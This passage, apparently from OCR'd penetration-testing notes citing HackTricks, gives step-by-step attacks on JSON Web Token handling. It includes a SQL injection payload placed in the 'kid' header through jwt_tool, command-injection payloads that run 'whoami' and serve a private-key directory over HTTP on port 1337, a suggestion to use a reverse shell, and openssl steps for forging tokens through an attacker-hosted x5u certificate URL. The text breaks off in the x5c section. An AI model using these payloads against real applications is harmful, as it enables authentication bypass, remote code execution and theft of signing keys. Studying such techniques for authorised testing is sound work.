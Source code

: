     # SQL injection
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. Switch to JSON Web Token Plugin tab and manipulate kid with sqli payload.
    4. You can try SQLi not only in kid but in any field of payload section.
    		"python3 jwt_tool.py <JWT> -I -pc name -pv "admin' ORDER BY 1--" -S hs256 -k public.pem"
    5. Done, Forward the request and escalate sqli further.
    
    # Command injection
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. Switch to JSON Web Token Plugin tab and manipulate kid with os commands payload.
    	"kid: key.crt; whoami && python -m SimpleHTTPServer 1337 &"
    4. Now use the forged JWt token in request
    5. Check if you can connect to the server on port 1337 or instead use reverse shell in payload and check if you get connection back
    6. DOne
    In a scenario where the "kid" parameter contains a path to the file with the key and this path is being used inside an executed command you could be able to obtain RCE and expose the private key with a payload like the following: 
    /root/res/keys/secret7.key; cd /root/res/keys/ && python -m SimpleHTTPServer 1337&
    ```
    
- **Other Headers Attacks |** [JWT Vulnerabilities (Json Web Tokens) - HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#x5u)
    
    ```python
    x5u Claim Misuse:
    Note: The algorithm used for signing the token is “RS256”.
    The token is using x5u header parameter which contains the location of the X.509 certificate to be used for token verification.
    
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. Decode the JWT token and check if it contents x5u attribute in Header section.
    4. Creating a self-signed certificate
    			"openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt"
    5. Extracting the public key from the generated certificate:
    			"openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem"
    6. Use Jwt.io and paste the public key (publicKey.pem) and the private key (attacker.key) in their respective places in the "Decoded" section.
    7. Set "x5u: <http://192.87.15.2:8080/attacker.crt>" you can use repl.it to host
    8. Done Use forged jwt token in request.
    
    -------------------------------
    x5c Claim Misuse:
    Note:The algorithm used for signing the token is “RS256”.
    The token is using x5c header parameter which contains the X.509 certificate to be used for token verification.
    The token has various fields: n, e, x5c, x5t, kid. Also, notice that kid value is equal to x5t value.
    